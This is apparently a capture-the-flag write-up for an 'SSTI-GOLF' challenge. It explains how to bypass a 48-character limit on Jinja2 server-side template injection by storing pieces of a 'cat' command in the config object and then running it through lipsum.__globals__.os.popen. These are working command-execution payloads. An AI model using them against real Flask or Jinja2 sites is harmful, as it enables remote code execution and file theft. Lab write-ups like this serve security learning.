



# SSTI-GOLF

Challenge Description:

> Just in case you didn't get *enough* golf with the other challenge. Flag is in an arbitrarily named file, but in the same directory.

## Analyzing The Website

The payload we send to the query parameter must be less than 48 characters.    

We can use the `url_for` function to access globals and then the OS function and call the listdir function as shown below .  

We see the flag is in the `truly_an_arbitrarily_named_file`. We cannot use the OS module to read this file because the payload length crosses the 48 mark. Instead,we can reduce the length by splitting the file name into 2 separate variables/strings and store them in the config object so that we can use them later.  

- Step 1 --> `{{config.update(x='cat truly_an_arbitrarily_')}}`
- Step 2 --> `{{config.update(y=config.x~'named_file')}}` (~ is used for concatenation)
- Step 3 --> `{{lipsum.__globals__.os.popen(config.y).read()}}` 

We separated the 2 strings and stored them in 1 variable named 'y' and then called popen to use that as a argument and read the flag.  

